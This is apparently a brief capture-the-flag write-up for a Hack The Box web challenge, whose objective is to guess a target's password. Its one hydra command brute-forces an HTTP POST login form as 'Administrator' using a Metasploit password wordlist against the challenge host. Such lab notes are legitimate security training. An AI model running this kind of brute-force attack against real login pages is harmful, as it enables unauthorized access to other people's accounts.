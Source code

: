 # Objective:<br/>
Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!

# 
**Command:**
hydra -s 31936 -l Administrator -P /usr/share/metasploit-framework/data/wordlists/password.lst docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" 

![](request.png)
![](response.png)
